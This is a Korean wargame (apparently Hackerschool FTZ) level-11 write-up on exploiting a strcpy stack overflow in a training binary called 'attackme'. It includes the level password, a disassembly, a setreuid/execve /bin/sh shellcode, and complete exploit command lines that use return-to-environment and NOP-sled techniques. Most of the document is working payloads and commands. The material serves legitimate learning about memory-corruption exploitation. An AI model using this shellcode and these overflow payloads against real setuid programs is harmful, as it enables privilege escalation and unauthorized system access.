









# level 11

* id : `level11`
* pw : `what!@#$?`



드디어 재미있는 bof 시간이다.

딱 보니 attackme 의 소스코드이다.

strcpy 함수를 쓰고 있으므로 오버플로우가 가능하다.

```
gdb attackme
set disassembly-flavor intel
disas main
```

```python
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp                  # 프롤로그
0x08048473 <main+3>:    sub    esp,0x108                # 0x108 == 264
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>     # setreuid(0xc14,0xc14)
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4                  # argv[1]
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]            # str 의 위치
0x0804849f <main+47>:   push   eax                      
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]            # 이후 마찬가지로 str의 위치를 출력
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
0x080484b7 <main+71>:   add    esp,0x10
0x080484ba <main+74>:   leave
0x080484bb <main+75>:   ret                             # 리턴 주소
0x080484bc <main+76>:   nop
0x080484bd <main+77>:   nop
0x080484be <main+78>:   nop
0x080484bf <main+79>:   nop
```


위와 같이 주어져 있으므로, str을 입력할때 `(0x108 + 0x4 + [쉘코드주소])` 만큼 덮어씌우면 리턴주소에 원하는 주소를 넣어 리턴을 시킬수 있을것이다.


---
## 참고사항 - 파이썬으로 print하기


Python 2.x의 버전에서, `python -c` 명령어를 통해 cmd 출력을 할 수 있다.

이를 통해, `python -c print ...` 을 이용해 byte단위로 셸코드를 출력 할 수 있다.

ex.
```bash
python -c 'print "A"*268+"\xde\xad\xbe\xef"'
```
뒤의 글자 `deadbeef`는 실제로 입력하려면 불가능한 글자가 존재할지도 모르지만, 위와 같이 출력을 하면 아무 문제가 없다.

응용
```bash
./program_name $(python -c 'print "A"*268+"\xde\xad\xbe\xef"')
```
이런식으로 쓰면된다

---

## Shellcode Inject

이제, 쉘코드를 주입할거다.
bash를 가져오는 간단한 쉘코드를 이용할건데, 이에 대한 어셈블리어는 직접 만들긴 어렵고 인터넷에서 구해야 한다.

```bash
export sh=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep sh
```



위와같이 sh에 요상한 글자들이 들어갔다. 저게 쉘코드다.

쉘코드를 환경변수에 넣었으니, 그 주소를 가져오고, 그걸 입력하면? 쉘코드로 자동으로 리턴되면서 쉘이 뜰것이다.

그렇다면 저 환경변수의 주소값은 어떻게 얻을까? `getenv` 함수를 이용하면 된다.

```C
#include <stdio.h>
int main() {
    printf("%p \n",getenv("sh"));
    return 0;
}
```



이제 빌드 방법은 알것이라 믿는다..

이제 이걸 코드 안에 넣어야되는데, 당연히 리틀 엔디안 식으로 넣어야 한다.

여기서는 `bf ff fe ab`이므로 `\xab\xfe\xff\xbf`로 넣으면 된다.

```bash
./attackme `python -c 'print "A"*0x10C + "\xab\xfe\xff\xbf"'`
```



GG!

---
## 다른 방법 - NOP Sled

`NOP` 명령어란 아무것도 안하는 것으로, 기계어로 하면 `0x90`에 해당한다.

우선 `NOP`이 가득 찬 공간을 만들고, 맨 마지막에 쉘코드를 넣은뒤

리턴값을 `NOP`이 가득 찬 공간 어딘가에 떨어뜨려 놓는것이다.

입력값이 저장되는 공간이 계속 바뀔때 `NOP Sled`를 이용하면 유용하다.




우선 먼저 `str`이 포함되는 정확한 주소를 알아보자.

`main+17` 쯤에서 breakpoint를 잡고 `info reg`를 해보면 str이 저장되는 주소를 알수있다.

대충 `bffff030` 인데, 해보면 알겠지만 프로그램을 재실행하면 계속 주소가 바뀐다.

NOP Sled를 태울것이므로, 여기서 50바이트정도 늘린 `bffff080` 쯤으로 리턴을 해보고, 쉘코드를 넣어보겠다.

쉘코드는 위에서 썼던 것과 동일하고, 길이가 41바이트 이므로 그만큼 빼준다.

```bash
./attackme `python -c 'print "\x90"*(0x10C-41) + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x80\xf0\xff\xbf"'`
```



해보니 아무리 해도 안된다.. 대충 해설을 보니 return 을 할 때 해당 버퍼를 다 지워버려서 저 스택 안에 있는 메모리에 접근이 안된다고 한다.

하지만, `argv[1]` 에도 마찬가지로 저 값이 씌워질것이므로 그 주소를 쫒아서 거기에 집어넣으면 된다!




우선 입력으로 아무 글자나 꽉채우고, main 시작점에 breakpoint를 건 다음, esp 근처 메모리를 쫙 읽어보면 된다.
```
b *main
r `python -c '"A"*(0x10c)'`
info reg
x/2000w $esp
```
이미지에서 보다시피 `0xbffffb00` 쯤부터 `argv[1]` 이 덮어씌워지는걸 볼수있다.

여기에서 한 30바이트 쯤 먹은 `0xbffffb30` 으로 리턴을 덮어보겠다.

```bash
./attackme `python -c 'print "\x90"*(0x10C-41) + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" + "\x30\xfb\xff\xbf"'`
```



GG!